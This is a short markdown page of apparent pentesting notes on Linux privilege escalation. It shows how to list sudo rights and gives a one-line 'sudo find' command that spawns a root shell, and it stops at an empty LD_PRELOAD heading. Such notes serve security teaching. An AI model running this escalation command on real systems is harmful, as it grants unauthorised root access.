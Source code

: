 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Privilege Escalation

Refers to the process in which an attacker gains rights or privileges in a system, the action of going from a lower permission account to a higher permission one.

Here are some techniques for achieving privilege escalation:

## <mark style="color:orange;">Abusing Sudo execution permissions</mark>

* Verify which commands can be run with sudo

{% code overflow="wrap" lineNumbers="true" %}
```bash
$ sudo -l
#Example results
User user may run the following commands on host:
    (ALL) NOPASSWD: /usr/bin/find
```
{% endcode %}

{% hint style="info" %}
`find` is used as an example, can be any other command
{% endhint %}

***

* Check _Sudo_ abuse for the binary on _GTFOBins_ and use it on the target machine to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo find . -exec /bin/sh \; -quit
#This will return a root shell
```
{% endcode %}

## <mark style="color:orange;">Abusing LD\_PRELOAD</mark>
